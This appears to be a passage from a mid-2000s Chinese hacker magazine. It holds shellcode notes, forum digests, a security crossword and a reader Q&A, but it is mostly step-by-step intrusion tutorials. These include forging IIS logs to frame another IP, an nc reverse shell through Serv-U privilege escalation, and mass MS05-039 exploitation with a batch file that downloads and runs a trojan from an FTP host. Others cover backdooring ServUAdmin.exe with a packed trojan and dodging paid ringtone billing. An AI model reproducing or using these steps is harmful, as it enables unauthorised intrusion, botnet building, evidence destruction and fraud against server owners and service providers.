    jz compute_hash_finished    ; al为零，表示遇到 '\0'
    ror edx, 0xd                ; 循环右移13(0xd)位
    add edx, eax                ; 计算下一个字符累加
    jmp compute_hash_again      ; 继续 HASH
compute_hash_finished:
```

这样一来就一目了然了。同样，我自己写了一个获取函数 HASH 值小工具（光盘中已收录），如图3所示。

该工具同时也提供另一种 HASH 算法，即由 The Last Stage of Delirium 提出的循环左移 5 位。该算法同样可使 HASH 后得到的 HASH 值唯一且可靠。

## 三、ShellCode 异或编码避免特殊字符

相信大家抱着《Q版》学了这么久的 ShellCode 编写，肯定最烦的就是 ShellCode 的编写了。一堆堆的汇编代码看不懂不说，还要面对一些其他的问题，像通用性问题、ShellCode 经常被莫名截断或改写，反正就是死活溢出不成功。这个时候千万不要浮躁，这些痛苦的过程是菜鸟变高手的必由之路。想当初 ww0830 初学溢出时肯定也是不知所措，接触多了，总结得多了，成功的几率就越多了。

# NoHack 9 月论坛热点版块

（版块小万整理）

## 一、充满争议回帖怎么贴

首先他不会与你吵架。他（她）在论坛一般是打不还手，骂不还口。你几时见过版主与网友吵架的？一般地说版主的忍耐性极强。好，他（她）实在看不顺眼也会换件马甲上场，这一条很重要，在家也会处处让着你。他即使想与你……更多精彩请直接去论坛欣赏。

> Noise 对灯塔来说：“嫁就要嫁个做版主的！”

直通地址: http://www.nohack.cn/bbs/dispbbs.asp?boardID=19&ID=4051&page=2  
美女所在城市：后天版块

不要经常叫男人陪你逛街，没有几个男人真正地喜欢逛街；强迫的最终结局就是反抗。男人在热恋时为女孩做的事情，不要指望他在以后的生活中一直持续下去。聪明的女孩子通常都会打五折。想接着看吗？想？好，告诉你地址，自己去看啊，论坛 ID 无聊虫朋友带来的“恋爱女孩的宝物”……

直通地址: http://www.nohack.cn/bbs/dispbbs.asp?boardID=19&ID=4038&page=2  
美女所在城市：后天版块

- A 美女：别以为我不知道有人想追你。  
A：“那有什么不好？”  
男友：“那些接近你的男人都是垃圾！要是埋他们，你就是垃圾场！”  
A：“那你是什么？”  
男友：“我是垃圾场……”  
“什么叫酷？你不会没闻到醋的味道吧？是酸呢？还是苦呢？还是去看看小丹妖精的原创作品《让女朋友挖掘》……”

直通地址: http://www.nohack.cn/bbs/dispbbs.asp?boardID=24&ID=2838&page=1  
美女所在城市：挑灯看剑版

## 二、人气旺贴前三名

- 1. 想要有肉鸡是每个小菜小黑的梦想，想要一只特好的肉鸡更是梦想……  
资料收集专区  
地址 http://www.nohack.cn/bbs/dispbbs.asp?boardID=33&ID=3197&page=2

- 2. 杀毒软件背后的黑幕你了解多少？网络上混，消息灵通很重要……  
专业安全  
地址 http://www.nohack.cn/bbs/dispbbs.asp?boardID=17&ID=423&page=1

- 3. 木马、病毒，虽然小黑们天天都要玩，但是都不喜欢自己机器中个毒……  
Win32 综合问题  
地址 http://www.nohack.cn/bbs/dispbbs.asp?boardID=11&ID=698&page=4

## 三、网友强烈讨论贴汇集

- 1. 现在很多公司网站的后台漏洞大得叫人害怕，只要写入“or”……就可以顺利地登录网站后台。  
【讨论】用“or”就能登录网站后台的漏洞怎么修补？  
综合问题问答区  
地址 http://www.nohack.cn/bbs/dispbbs.asp?boardID=11&ID=3217&page=1

- 2. 玩泡泡堂的都以为很安全，因为他们都没听过有这个的……但是论坛上早就有人针对这个进行激烈的讨论了。  
Win32 编程版

# 黑客填字游戏

BY VIRGO[E.S.T]

笔者为了照顾到各个层次的读者，多次做了修改，每个提示都已被对过有关资料，准确性应该比较高。并且为了让大家能学到知识，对个别生疏的词语做了详细的介绍，所以请大家认真地看下去。

**游戏规则：**

1、词语分横向和竖向，横向词语的顺序是从左至右，纵向词语的顺序是从上至下。  
2、许多词语的某个字母或汉字会和其他词语共一个格子，所以当你觉得要写到下一个题目时不要犹豫，写下去，因为也许这个题目的最后一个字母是第二个题目的开头字母。  
3、要根据题目所提示的去写，笔者已经充分考虑了难度，努力做到在你想了很久之后才能找到答案。如果实在想不出，也不要急着看答案，去 GOOGLE 搜一下印象会更深。  
4、答案分中文和英文两种，而英文占大部分，大部分都是你熟悉的英文简写，不会太长，所以不要想太多。  
5、遇到中文词语时，提示后面会有注释，请大家注意。  
6、每个提示后都有难度提示，一颗★为常见词语，两颗★为较专业词语，三颗★为少见词语。  

好吧，现在就开始吧！

填字游戏网格（含编号 1–53）

（答案下期揭晓）

- **横向：**
- 1. 微软在它的某些系统中捆绑的可以提供 WEB、FTP、SMTP 等服务的全能软件。★  
- 2. 结构化查询语言的英文缩写。★★  
- 3. 开放式系统互连协议的缩写。★★  
- 4. MS 系统中安全标识符缩写，有了它就不会把不可信计算机的相同账户混淆。★★  
- 5. 拒绝服务攻击的缩写。★  
- 7. 一个曾经被称为“方舟扫描器之王”软件的缩写。★  
- 8. 基于 RSA 公钥加密体系的邮件加密软件的名字。★★★  
- 9. 我们主机的 139 端口就是因为这个协议而开放。★★  
- 10. 图形化识别验证的缩写。★★  
- 13. NT 系列操作系统密码数据库（安全账户管理器）的缩写。★★  
- 14. 1KB*2的10次方=__。★★  
- 15. 文件的常见后缀名，表示数据文件。★  
- 16. 黑客攻击的常见方法，每次都是利用程序的某个函数缺陷。（中文）★  
- 18. 一种脚本语言，经常和一个小型数据库一起出现。★  
- 20. “系统”的英文。★  
- 22. 当一个没有固定 IP 的主机想建站，它首先必须申请一个什么？（中文）★  
- 23. IP 是不好记忆的，我们用什么来代替？（中文）★★  
- 24. 一种烈性炸药，通常会用来形容核弹的爆炸威力。★  
- 25. 基本输入输出系统的缩写，我们装机时都要设置一下的那个东西。★  
- 27. 一个老牌的远程控制软件，常与 RADMIN 来做比较。★  
- 29. 一种早期国产 DLL 木马。★  
- 30. 终端服务的英文缩写。★  
- 31. 大型网络中暴露在外网并且经过一定安全配置的计算机俗称（中文）★★  
- 33. 因特网控制消息协议的缩写，工作在 OSI 模型的第三层。★★  
- 34. 网站是一个又一个什么组成的？★  
- 35. 一种传输协议，全名为用户数据报协议，工作在 OSI 模型的传输层。★★  
- 36. 一种传输模式的缩写，俗称点对点。GLOBAL?（原文含糊）★★  
- 37. 一种传输协议，全名为传输控制协议，与题目34所说的工作在同一层。★★  
- 38. 每一个软件与用户交互时都有的标志名称，一般被用来判断对方软件的版本。★  
- 39. 一种用来欺骗用户保存权限的后门工具包的缩写。★★  
- 40. 一种高级数据校验术的缩写，利用的是 OSI 模型网络层一个协议的缺陷。★★★  
- 41. 简单网络管理协议的缩写，工作在 UDP 161 端口上。★★  
- 43. 如果你怀疑你的系统被入侵了，但又不敢确定，你会对你的系统做什么呢？★★  
- 44. WINDOWS 使用的一个协议的缩写，提供远程交互通信，允许程序在远程机器上运行任意程序，工作在 OSI 模型的会话层，以前曾出现过关于它的大漏洞，风靡一时。★★  
- 46. 通过已入侵的主机向攻击内部网络继续进行入侵，并且得到若干子主机权限的过程。★  
- 47. 一种常见的提供上传和下载文件的协议，在 OSI 模型的应用层。★  
- 48. 在题目45的答案里的过程中常常要用到这个命令，用来摸清内部网络的路由分布情况。★★  
- 49. 一种常见的提供远程登录的协议，工作在 TCP 23 端口上。★  
- 50. 地址解析协议的缩写，工作在 OSI 模型的数据链路层。★★  
- 51. 由于需要把网络中传输的数据准确地送到不同的程序中，我们需要一个东西来与程序捆绑，这样数据才不会混淆，这个东西是什么？★  
- 52. 组件对象模型的缩写，是一种跨应用和语言共享二进制代码的方法。★★★  
- 53. ACCESS 数据库的后缀名。★

- **纵向：**
- 5. 提供将 IP 转换为主机名的一种服务的缩写。★  
- 6. 一种把邮件消息从发信人的邮件服务器传送到收信人的邮件服务器的协议。★  
- 11. 横向题目43的英文缩写。★  
- 12. 一种网络地址转换服务的缩写。★★  
- 17. 此乃邱庄红的一首歌。（中文）★  
- 19. 超文本传送协议的缩写，工作在 OSI 模型的应用层。★  
- 20. 服务器信息块协议的缩写，与横向题目9的答案密不可分。★★  
- 21. 邪恶八进制信息安全团队的简写。（也就是笔者所在的团队）★★★  
- 26. 提供某些服务的主机我们一般称之为什么？（中文）★  
- 28. 函数最大值宏定义提取系统文件的名称。★★  
- 32. 个人网站又叫个人什么？（中文）★  
- 33. “网际协议”的缩写，我们有时也将它作为网络地址代名词。★  
- 39. “博客注解”的缩写，里面都是关于 Internet 的几乎所有重要的文字资料。★★  
- 42. WINDOWS NT 面向管理员常用程序简称，由 LLM 管理器执行程序，常在 MS 的服务中出现，如 TELNET。★★  
- 45. 新出的一款名叫 Challenge Collapsar 拒绝服务软件的简称，此软件功能简单但威力强大！★★

# 29号信箱

四川大竹　李蕊利　21岁

本期我最不喜欢的文章（写页码即可）：李蕊利答：97、98、99（性急的老编急忙拿起来忘谢，到底是什么文章让小李同学如此不爽，结果被鉴，21岁的小李同学会工程学手段鉴到超龄版兵役的老编；强）

期望《非安全》还出品什么类型的图书？李蕊利答：《playboy》（小编的思绪荡到了美国，流下了“性”福的口水）……

您觉得本光盘还可添加哪些内容：李蕊利答：现在很多电脑书都这样吹：赠送价值XX的光盘！买了以后，才发现光盘上的软件全部要注册！谁稀罕这样的东西；俺虽是农民，也知道上网下载！！（小编急忙把这封信转给光盘部的程序编辑从事学习）

最后，非常感谢，我们可爱的李蕊利同学还给我们题字——“个人意见，你们不要鄙视我！”，如此铿锵有力的两个感叹号，仿佛依稀让我们看到了一个刚正不阿的李蕊利的正面形象，正怒发冲冠地用他那双犀利得能杀人的眼睛审视着心虚的小编，不过，李蕊利同学手上正拿着一本《playboy》。

读后感言：其实李蕊利还给我们写了一些其他很有建设性的意见，让小编站在读者的角度也发现了几个问题，再一次谢谢李蕊利朋友之言。同时我们也鼓励更多的读者给我们来信，精彩来信将有机会和大家一起分享，并有机会得到精美礼品一份。

# Q&A

> 问：为什么MS-05039溢出后用NC连接不上？特向高手请教？

答：首先你要清楚MS-05039漏洞在Windows 2000上：匿名用户可以通过发送特制消息来利用这个漏洞；在Windows XP Service Pack 1上：只有通过认证的用户才能发送恶意消息；在Windows XP Service Pack 2和Windows Server 2003上，攻击者必须本地登录到系统然后运行特制的应用程序才能利用这个漏洞。现在网上出现的溢出程序都是针对Windows 2000 Service Pack 4的，如果你溢出的目标系统不是这个版本，当然无法用NC连接上了。

> 问：我用的是婴儿灰鸽子破解版，在配置服务器的时候，在“IP通知http访问地址，DNS解析域名或固定IP”一栏的下面，我输入了我在126申请的域名，然后配置成功。当肉鸡运行了服务器端的时候，肉鸡会不会通过域名连接我的电脑（我开了8000），只运行了客户端，为什么其他的没运行？

答：肉鸡运行了服务器端（假设配置是正确的），如果没有被查杀的话会自动读取你设置的126域名所指向的IP和端口，服务端就会主动地连接这个IP的相应端口。如果你是在内网的话就需要通过路由转发或是IP地址映射之类的方式，才能让服务端连接上客户端。

> 问：我已经得到在telnet弱口令的服务器！用户名和密码一样，请问进去以后该怎么做才能拿到3389？

答：要开启肉鸡的3389，你首先得判断肉鸡的操作系统的版本，可用“type c:\boot.ini”命令查看，如果是Windows 2000 Service或是Windows 2003的才能开启（当然Windows XP也可以，不过Windows XP只允许一个用户登录，开启了也用不了）。开启3389的方法就多了，你可以上传工具也可以直接TELNET上去写个开启3389的BAT文件，执行后重启肉鸡就行了，这方面的资料网上很多，大家随便搜一下就能找到了。

> 问：请问CMD下什么命令可以看见端口？

答：在CMD下输入NETSTAT -AN，就可以查看端口和相关的连接，你也可以输入NETSTAT /?获得帮助。

> 问：已经得到了管理员账号、密码后，可以用IPC$入侵XP吗？

答：Windows XP的IPC$默认是关闭的，而且就算你能连接上的话，也只能获得GUEST权限，无法上传文件或执行文件。

# 写在前面

# 黑客与八路

今年是抗日战争胜利六十周年。看着电视上不断宣传的抗日精神，突然联想起了黑客精神。哎呵，是职业病了吧。细细想来它们具有这么多的共同点。

- 1. 代表社会较先进的力量：打击残虐日本的入侵，是任何一个中国人都义不容辞的责任。八路是当年抗日队伍的主要代表，也说明了八路具有当时先进的指导思想体系。黑客，反网络主流价值的代表力量，黑客是推动计算机技术发展的主要力量之一。一句话，八路和黑客都在突破前进。
- 2. 具有吃苦耐劳的精神：八路就不用说了，黑客么，各位也都有体验，谁不是经常熬夜呢。强大的精神支柱鼓励着我们越来越靠近目标。
- 3. 具有各自的准则：八路的纪律如铁，黑客也有必须遵守的道德准则。
- 4. 分享：如果八路有一囤粮，那么周围的百姓也一定不会挨饿了。黑客同样也是为了争取共享而生的人，分享技术成就是黑客精神之一。当然那些四处炫耀，并有几个肉脚工具却吝于分享的人是不配称做黑客的。
- 5. 自信：黑客通常决心探索的结果可能是一无所获，但是自信支撑他们继续工作下去。同样，即使战场上只剩下最后一名八路，“打倒日本帝国主义，还我河山”的信念也会让我们战斗到生命最后一刻。
- 6. 爱国：黑客也有红客这个分支。
- 7. 分工明确：纪律与分工的方式也是胜利的必要条件之一。非安全试玩版中的“0和1序言”也提出了黑客类别划分。
- 8. 奉献：八路可以为了国家主权、民族尊严，献出自己宝贵的生命。黑客为了共享的理念，无私奉献自己的力量。

NoHack窗外编辑：Latteye  
2005年9月底

# HACKERS MANUAL

# 10月 菜鸟恶补黑客特别

有一菜鸟一看到“菜鸟恶补”中的“恶”，想起了高考前的恶补还有余悸，于是心脏发生恶性循环，大脑供氧严重不足，两手颤抖，口吐白沫……在此小编告诉大家：此“恶”非彼“恶”！“菜鸟恶补”旨在让菜鸟们更快更轻松地了解一些基础知识，通过老鸟、高手们现身说法更快地升级。绝对是无毒无烟的绿色食品，请大家放心……（胖狐狸最近在家里帮着看店看多了，大家不听他瞎扯了，看文章吧。）

# 日志，你会清了吗？

剑心 [B.C.T]

## 一、前言

在《非安全》跑了这么久，你一定学会很多的入侵方式了吧！学会了这么多的入侵方法，你一定有肉鸡了吧！肉鸡多了是不是被管理员发现的机会也很多呢？呵呵，那是你还不习惯为肉鸡擦日志的缘故，你在肉鸡上留下了很多的痕迹，然后被管理员察觉，然后你彻底地跟这台肉鸡失去了联系。想要保持好一台肉鸡，想要掩盖一次入侵的痕迹，想要从管理员眼皮底下溜走，日志的清除都是不可少的，现在我就给大家说下如何清除一次入侵在肉鸡上的痕迹。

只有明白自己会留下什么痕迹才能了解如何清除自己的脚印。首先我来进行一次常见的入侵，然后根据这次入侵来说明服务器上会留下的日志痕迹。我们的入侵是各种各样的，所以并没有一种完善的通用的擦日志的方法，根据你所进行的动作来判断自己所留下的日志才是我们真正要学会的。现在流行的入侵模式是脚本漏洞+系统配置的攻击，一般是首先找web上的漏洞，获取一个webshell，然后进一步提升权限，最后是渗透整个网络。所以这里，我们的目标是一个小型企业的网站，我们试着来入侵并且取得它的最高权限。

## 二、入侵前奏

动作：还是传统点吧，目标不大，网络环境探测就省略了，如果系统本身方面有致命的漏洞就可以让我们轻松得逞了，拿出x-scan扫描下吧！这里我选择的扫描项目是端口和服务，为了比较我也选择了CGI和IIS的漏洞探测，其实这类漏洞应该很少或者是没有什么用处的，得到结果如图1所示。哈哈，果然不出我们所料，装了防火墙或者是做了安全策略，不可能只开这么少的端口嘛！系统的主机是2000，应该是IIS5.0的，系统漏洞方面没戏，那看来只有从Web上突破了。

图1 X-Scan扫描

脚印：我在进行主机信息探测的时候选择的是TCP扫描，这样会和主机进行TCP连接，如果对方的防火墙是记录IP的话，如天网等，他会把我们的扫描过程详细记录下来，如果是IDS就会更糟糕，因为这明显是一次扫描。还有就是Web的日志，我们进行了IIS和CGI漏洞的探测，在系统的IIS日志里会留下很多的痕迹，这些请求是平时所看不到的，很容易判断为一次攻击；我们的IP也会被记录。如果我们进行了21端口的口令探测，系统也会把整个过程记录下来。

所以，在入侵的扫描中，产生的痕迹有防火墙的日志、系统服务安全日志。

清除：因为这个时候我们是没有权限删除这些日志的，所以等到拿到3389或者高级权限之后，打开防火墙的主程序，将太可疑的日志全部删除，特别是我们的IP和扫描的痕迹。至于IIS的日志，一般会留到最后一起清除。

### 三、渗透Web

动作：确定入侵方向之后访问该站，发现整个系统就是一个BBS和一个图片系统，这两个系统的功能都很强大，并且该站的维护十分随意，基本没有做任何修改，应该是管理员把论坛建立之后疏忽了或者是网站人员管理疏忽，于是用默认的用户：admin（默认密码：admin888）登录论坛试，呵呵，好像改了密码。没有关系，下载默认数据……

图2 下载数据库

用户很少，不过admin的密码一会儿也破解出来了，常理的思路是呵呵！用这个密码登录，果然进入了后台。哈哈，剩下的大家都知道怎么做了，我在论坛里上传了一个jpg文件，然后利用后台备份数据库功能备份成为后门（如图3）。很幸福哦，访问我们得到的asp木马，哈，居然没有碰到杀毒软件！

图3 登录后台

脚印：在Web上的渗透，所做的操作当然都是由系统的WWW服务所记录的，所以如果为了安全我们进入系统之后一定要清除掉Web日志，那里有我们的IP，有我们下载数据库的证据，有我们访问木马的操作……但是，是不是做了这些就足够了呢，还有个地方也许你没有注意到，在动网数据库里有个DV_log表，里面可是有很多东西的，我们进行入侵之后下载动网数据库查看记录（如图4），包括你的动作、你的目的、你的IP都在呢。最好不要做太多的动作，因为如果你发帖子的话还会在另外的表里面记录你的IP。还有个东西就是杀毒软件，这里我们没有遇到，但是如果你的马上传之后被杀了，很有可能是被杀毒软件杀掉了，它有自己的独立日志，进入主机之后也要注意，很有可能暴露你的入侵痕迹。

图4 记录详情

清除：首先要清除的当然是Web日志了，它记录了我们所有的动作。以前有很多的擦除日志程序，有个批处理甚至是把服务停掉，然后把那几个记录文件全部删除；也有程序直接把所有日志全部清除的。这样做有点问题，如果你想让别人找不到你，你可以那样做，但是简单的删除并不能说明别人找不到你，有些软件可以很好地把删除的文件恢复过来。我推荐的做法是将我们的IP擦除就可以了，或者可以写个将包含指定IP就删除掉该行记录的程序。我这里有个将指定IP替换为另外IP的批处理，在命令行下执行格式如下：

```bash
cmd.exe /v:on /c "replace.bat 路径 文件类型 你的IP 伪造的IP"
```

其中路径是Web日志存储的位置。一般都是默认的，但是也有管理员更改了默认的选项，在IIS选项里可以看到。记得先停止IIS服务，替换完成之后再启动IIS服务。执行之后看看日志如图5，这样之后就可以嫁祸给别人了。或者你认为管理员对日志不重视，你可以用logkiller.exe这个小软件，执行效果如图6所示。很干脆但是也很危险，这样一来管理员就知道被入侵了。这是我们得到权限的情况下这么做，如果我们最后还是只能得到web权限，如何清理我们的日志呢？推荐大家使用大的代理去反复访问这个网站，日志足够多的话管理员想查找真正的入侵者就不那么容易了。至于我们在动网程序里留下的痕迹，可以将与我们有关的东西删除然后覆盖掉原来的就可以了，但是也不可以被忽视，即使你只是拿web权限，如果想掩盖入侵痕迹还是要这样做的。

图5 查看日志  
图6 logkiller 删除日志

## 四、提升权限

动作：我们利用手上的木马探测了系统的信息，发现主机可以执行命令，执行命令如图7，呵呵，再执行netstat -an发现还有43958端口，不就是前阵子我肉鸡时常用的Server-U的默认管理端口么？

图7 net start 查看服务

马上找出我们的利用工具上传上去。为了避免麻烦，直接传到c:\winnt\system32\inetsrv\data下啊！这样的管理员应该不会在这里设置权限，默认是有权限的。然后在我们的webshell命令里执行：

```bash
c:\winnt\system32\inetsrv\data\f.exe "c:\winnt\system32\inetsrv\data\nc.exe -e cmd.exe ip:9999"
```

成功了哦！于是得到了一个cmdshell（如图8），是Server-U的权限也就是系统权限的哦！哈哈，现在是最高权限了，加了个用户。

图8 添加一个账户

当然不会在这里就停止的，我要拿他的3389。从开始的net start命令中我们没有看到终端打开，看来要我们来给他开了，呵呵。利用webshell上传sc.exe到他的机器的inetsrv目录上（忘了让工具集中在一个目录，至于为什么后面会讲到），这个东西操作服务很方便，这里是直接打开终端服务，打开之前将我们已经配置好的注册表文件导入进去。

```bash
regedit /s c:\winnt\system32\inetsrv\data\1.reg
regedit /s c:\winnt\system32\inetsrv\data\2.reg
sc config termservice start= auto
iisreset /reboot
```

等等，还是先不要重启的好，不要忘记我们还没有看到防火墙，但是开始却被阻止了很多端口，应该是TCP/IP筛选啊，所以还是先写个注册表把它给停掉吧……修改EnableSecurityFilters为0后再导入，HOHO！可以重启了。

痕迹：我们利用了Server-U的本地缺陷提升了权限得到Cmdshell，这些完全是正常的操作……执行iisreset /reboot命令让主机重新启动一次，这在主机的日志系统中肯定留下了关键的信息。

清除：我们可以从3389管理工具的日志里将安全日志等删除……你也可以使用LogKiller.exe这个工具，不过不推荐；此外还应删除上传文件、转移到深层目录等。

## 七、享受战果

动作：权限取得了，进入了肉鸡，入侵算是完成，不过还是要看看我们的肉鸡上到底有些什么好东西啊……配置好后这机器以后就随我摆布了。

痕迹：3389登录会在C:\Documents and Settings\jnc下产生配置和最近访问记录（Recent）等内容，需要注意这些暴露痕迹。

还有Cookies文件夹和IE缓存目录，利用C:\Documents and Settings\jnc\Local Settings\… 可以知道你在3389上的操作。

清除：先将相关文件夹设置为系统加隐藏，再在任务栏“开始”菜单属性中清除最近记录；若访问了IE，还要在IE工具中删除历史记录。

## 八、后话

入侵是各种各样的，了解了自己入侵所产生的日志才能清除它们……日志清除和入侵手段是联系在一起的，Web日志、木马日志、Rootkit场景都要分别考虑。

> 【本文所涉及的replace.bat、logkiller.exe、nc.exe、ftp.exe、sc.exe、终端相关的注册表文件在光盘中均有收录】

总结陈词：不过，入侵的时候总会留下痕迹，并不是你认为擦干净就没了，还要看主机的安全性。

## 利用 MS05039 漏洞使你——肉鸡成群

天涯衰草

最近，利用微软 MS05039 漏洞的攻击工具以及各种各样的病毒都在网上出现，使我们这些菜鸟坐立不安，惊恐万分。但是凡事都是相对的，在我们看到 MS05039 漏洞给我们带来的危害的时候，我们有没有想到利用这个漏洞来获得大量的肉鸡呢。今天我就教各位菜鸟朋友，如何利用 MS05039 漏洞来获取大量的属于自己的肉鸡，我们现在就开始吧。

## 一、扫描远程计算机

首先我们需要找到那些存在 MS05039 漏洞的计算机，这样就可以利用这些存在漏洞的计算机来制作成肉鸡了。如何才能查找到这些存在 MS05039 漏洞的计算机呢？其实只需要利用一个扫描器大范围地扫描 445 端口即可，那些打开 445 端口的计算机就有可能存在 MS05039 漏洞。

今天我们使用的扫描器是 s.exe，它是一款命令行下的高速扫描利器，通过它我们可以轻松地对某个 IP 段进行扫描检测。如果用户熟悉其他扫描器的话，也可以使用它们来扫描 445 端口。

```bash
s tcp 192.168.0.1 192.168.0.255 445 120 /save
```

这段命令的意思是利用 120 个线程数，扫描 192.168.0.1 到 192.168.0.255 这个 IP 段中 TCP 协议下的 445 端口，并将扫描的结果保存到硬盘中一个名为 Result 的文本文件中。

## 二、配置木马服务端

扫描的过程是漫长而辛苦的，所以在扫描的这段时间里，我们要充分地利用这段时间来干一些其他的事情。最主要的事就是配置一个木马的服务端程序，不然的话用什么来控制我们的肉鸡呢？还是利用国产木马——PcShare吧。运行 PcShare.exe 后，点击工具栏的“生成客户”按钮，在弹出的“生成被控制端执行程序”的窗口中进行设置。首先在“IP 地址 [端口]”选项下输入本机当前的 IP 地址及连接端口，由于 PcShare 使用了 HTTP 隧道技术，所以默认的端口为 80，当然你也可以更改为你喜欢的端口数。如果本地计算机没有固定的 IP 地址，可以通过下面的“启用自备 URL 转发本机 IP 地址”选项来及时更新本地的 IP 地址，这样就可以避免服务端程序无法连接客户端的情况。然后在“客户自带标识”中设置用于远程计算机上线后显示的名称（如图1）。最后点击“生成”按钮，就能生成配置好的木马服务端程序了，接着将它上传到我们的 FTP 空间中。

现在来看扫描结果（如图2），从图中可以看到，这个 IP 地址段有 3 台远程计算机打开了 445 端口，下面就对这几台计算机进行批量的远程溢出操作。

首先我们来查看一下 MS05039 漏洞利用工具的使用方法：

```bash
ms05039.exe <host> <conIP> <conPort> <target>
```

- `<host>` 表示远程计算机的 IP 地址
- `<conIP>` 表示本地计算机当前的 IP 地址
- `<conPort>` 表示本地计算机打开的监听端口
- `<target>` 表示远程计算机系统的语言版本，工具默认的是中文系统（如图3）

## 三、准备阶段

现在来编写一个批处理文件，打开记事本，输入下面这段代码……

# 10月 菜鸟技术黑客特别

码，并保存为 ms05039.bat：`@for /f %%i in (result.txt) do ms05039 %%i 127.0.0.1 2005`。在 result.txt 文件中保存了打开 445 端口的 IP 地址，而 127.0.0.1 是本地回连地址，2005 为监听端口。

```bat
echo open www.xxx.com 21 >>%systemroot%\system32\system.ftp
echo abc>>%systemroot%\system32\system.ftp
echo 123>>%systemroot%\system32\system.ftp
echo cd %systemroot%\system32>>%systemroot%\system32\system.ftp
echo bin>>%systemroot%\system32\system.ftp
echo get muma.exe>>%systemroot%\system32\system.ftp
echo bye>>%systemroot%\system32\system.ftp
ftp -s:%systemroot%\system32\system.ftp
del %systemroot%\system32\system.ftp
muma.exe
exit
```

这段代码的意思是通过登录 FTP 空间后下载并运行服务端程序；其中第二行和第三行分别为用户名和密码。

```bat
@echo off
nc -l -vv -p 2005<ftp.txt&&%0
```

打开两个命令提示符窗口，分别执行 ms05039.bat 和 nc.bat。执行后会读取 result.txt 里的 IP 并尝试自动溢出与回连。

> 编辑观点评论：利用 MS05039 漏洞抓肉鸡在内网环境成功率更高，且受系统版本和端口开放情况限制。

# 虚拟主机→肉鸡之旅→拨云见日之一瞥

前段时间找了个空间做个人网站与 BLOG，随后测试服务器安全性。上传 ASP 木马后发现受限，转而尝试 Serv-U 本地提权 Exploit，并对 php 文件做变形处理，最终上传后在 WEB 中打开，得到后门界面。

把用户名和密码改成自己想要的，比如 wzhpro，用户主目录也可以改掉，比如改成 C:\。最后点击“添加”把设置的用户添加成能执行命令的 SERV-U 管理账号。如果成功的话，就会在回显中出现“User settings saved”（如图3）。

接着打开 CMD，运行：“ftp 域名”来登录。登录成功后我们就可以运行 `net user wzhpro wzhpro /add` 和 `net localgroup administrators wzhpro /add` 来添加一个超级管理员用户（如图4）。

接着干什么呢？终端登录？OK，就用终端来登录吧！突然想到一个问题：不知道终端服务的端口！郁闷，怎么才能知道端口呢？这时我想到了用 `netstat -an` 来获取所有端口，看看能不能从里面获得信息。再一次 ftp 上服务器，运行 `netstat -an > 自己网站的路径\netstat.txt`（如图5）。

OK，我们打开自己网站下的 netstat.txt 吧，看看能不能获取什么信息。我发现有一个 8888 端口非常可疑（如图6），来试试。果然是 8888 端口！哈哈，终于被我找到了！我们输入一开始添加的管理员账户 wzhpro，兴高采烈地登录，结果提示用户名无效（如图7）！汗一下！难道是 SERV-U 不是以 system 权限启动的？

先这么猜测吧，再想想有没有其他办法。因为 SERV-U 要读取 SERV-U 目录下的配置文件，有时还要写入，所以管理员不会让 SERV-U 无法操作 SERV-U 安装目录的。那我们进入 SERV-U 的安装目录看看吧（如图8）。

果然可以完全访问哦~呵呵，大家想到什么方法了呢？嘿嘿我们把木马程序和 ServUAdmin.exe 捆绑一下，然后等下次管理员访问的时候，木马就可以运行了哦。

嗯嗯，说干就干。打开 EXE 文件捆绑器，把自己常用的木马和 ServUAdmin.exe 捆绑了一下（如图9）。这样生成的木马很容易被杀，所以要加一下壳。这里我选择了木马彩衣，这是一个非常常用的加壳程序哦，能躲过很多杀毒软件。

# 10月 Q版黑客程序排

图9 捆绑文件

我们选择好了 ServUAdmin.exe，然后随便选择了一个免杀选项，按“穿上”完成加壳（如图10）。最后我们把 ServUDaemon.ini 下载下来，把我们添加的用户删掉，防止被发现哦~嘿嘿。

> 【本文涉及的 servexp.php、change.php、木马彩衣脱壳修整版.exe、EXE 文件粉碎器.exe 在书盘中均有收录】

编辑部贴评：真是日防夜防，家贼难防！入侵自己的网站所处的服务器，都不用辛辛苦苦去找 WEBSHELL 了，SERV-U 还是一个好后门啊！

图10 木马彩衣加壳

十一黄金周里，大家都是各式各样的玩法，还有很多人打定了到博物馆看恐龙……要找卧龙探幽的兄弟们的朋友们可要手持一本《黑客手册》作为“信物”，不过不认识“Q版黑客”的一律不接待哦！

## 收费图铃免费下

光芒果

最近新买了台 NOKIA 6610i 手机，但实在受不了那单调的铃声和待机图片，准备下载一些图铃，于是就到各大无线服务网站逛了逛。

首先来到了 TOM 短信频道（http://sms.tom.com），先选一个待机图片吧……再看看铃声，也要 2 元，晕，这下真的要大出血了吗？不行，我要看看有什么办法可以免费下载。

图1 TOM 短信频道  
图2 右键看图片地址

我看了看下载的流程说明，先是输入手机号码，然后收到服务信息，点击服务信息中的网址就下载图片或铃声并收费 2 元。看来是通过 GPRS 接入一个固定的地址来下载并收费的。如果我们能得到图片或铃声的真实地址不就可以免费下了吗？

图3 在浏览器中打开图片

然后放到自己的空间再下载吧，哪个知道放在 TOM 那些直接访问它还能不能收费啊……再说放自己空间 URL 也好记点，没有空间的可以找个允许上传的论坛上传再下载。

我把那图片放到了 CNNSAFE 后用 NOKIA 6610 访问，不一会就提示收到图片，现在保存就可以了！好了，图片是可以免费下载下了，但铃声呢？再看看吧，来到如图4所示的页面，打开音箱，试听铃声就传出来了。

图4 试听铃声的页面

呵呵，找这个铃声的地址吧，怎么找呢？对，用 WSockExpert 抓包看，看抓到了什么好东西（图5）：

图5 WSockExpert 抓包分析

```html
<td height='25'><bgsound src='http://smsad.tom.com/smsweb/midi/4857_2467/Tom_1114064798.mid' loop=-1><font color='red'>下载之道(F.I.R飞儿乐团)</font>&nbsp;&nbsp;</td>
```

看到 `<bgsound src="http://smsad.tom.com/smsweb/midi/4857_2467/Tom_1114064798.mid" loop=-1>` 了吗，其中 `http://smsad.tom.com/smsweb/midi/4857_2467/Tom_1114064798.mid` 就是铃声的真实地址了，老办法，用工具下载后放到自己的空间用 GPRS 下载吧。

后来，我发现不用 WSockExpert 抓包也是可以看到铃声真实地址的，用 TT 等多窗口运行的浏览器打开铃声下载页面（如图6），然后查看源文件（如图7）。慢慢找，很快就可以找到上面抓包得到的地址了。

除了 TOM，我还测试过 QQ、网易、SOHU、SINA 等都存在这个漏洞，呵呵，这回我们可以只付少量 GPRS 通信费，而不用付高额费用给 SP 就可以下载图片和铃声。需要注意的是，找的图铃一定要和自己的手机型号匹配，不然下了也没有用。

